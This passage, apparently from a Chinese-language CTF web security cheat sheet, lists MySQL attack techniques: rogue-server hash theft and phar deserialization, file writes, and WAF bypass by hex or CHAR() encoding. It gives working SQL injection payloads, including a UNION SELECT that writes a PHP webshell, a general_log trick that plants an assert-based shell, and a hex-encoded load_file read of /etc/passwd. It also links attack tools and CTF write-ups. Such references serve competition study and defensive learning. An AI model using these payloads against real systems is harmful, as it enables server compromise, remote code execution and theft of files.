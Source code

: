                 - stealing net-NTLM hash
        - Trigger phar deserialization
            - `LOAD DATA LOCAL INFILE 'phar://test.phar/test' INTO TABLE a LINES TERMINATED BY '\n'`
            - 非 default 設置
              ```
              [mysqld]
              local-infile=1
              secure_file_priv=""
              ```

        - Tool
            - [Rogue-MySQL-Server](https://github.com/allyshka/Rogue-MySql-Server)
            - [MysqlClientAttack](https://github.com/lcark/MysqlClientAttack)
        - Example
            - [N1CTF 2019 - sql_manage](https://xz.aliyun.com/t/6300)
            - [HITCON 2019 - GoGoPowerSQL](https://github.com/orangetw/My-CTF-Web-Challenges/blob/master/README.md#gogo-powersql)
            - [0CTF 2018 Final - h4x0rs.club](https://l4wio.github.io/CTF-challenges-by-me/0ctf_final-2018/0ctf_tctf_2018_slides.pdf)
            - [VolgaCTF 2018 - Corp Monitoring](https://w00tsec.blogspot.com/2018/04/abusing-mysql-local-infile-to-read.html)
- File-write
    - `INTO DUMPFILE`
        - 適用 binary (寫入同一行)
    - `INTO OUTFILE`
        - 適用一般文本 (有換行)
    - 寫webshell
        - 需知道可寫路徑
        - `UNION SELECT "<? system($_GET[1]);?>",2,3 INTO OUTFILE "/var/www/html/temp/shell.php"`
    - 權限
        - `SELECT file_priv FROM mysql.user`
    - secure-file-priv
        - 限制 MySQL 導入導出
            - load_file, into outfile, load data 等
        - 運行時無法更改
        - MySQL 5.5.53 前，該變數預設為空(可以導入導出)
        - e.g. `secure_file_priv=E:\`
            - 限制導入導出只能在 E:\ 下
        - e.g. `secure_file_priv=null`
            - 限制不允許導入導出    
        - secure-file-priv 限制下用 general_log 拿 shell
        ```
        SET global general_log='on';

        SET global general_log_file='C:/phpStudy/WWW/cmd.php';

        SELECT '<?php assert($_POST["cmd"]);?>';
        ```
- IF語句
    - IF(condition,true-part,false-part)
    - `SELECT IF (1=1,'true','false')`
- Hex
    - `SELECT X'5061756c';  =>  paul`
    - `SELECT 0x5061756c; => paul`
    - `SELECT 0x5061756c+0 => 1348564332`
    - `SELECT load_file(0x2F6574632F706173737764);`
        - /etc/passwd
    - 可繞過一些 WAF
        - e.g. 用在不能使用單引號時(`'` => `\'`)
         - CHAR() 也可以達到類似效果
             - `'admin'` => `CHAR(97, 100, 109, 105, 110)`
- 註解：
    - `#`
    - `--`
    - `/**/`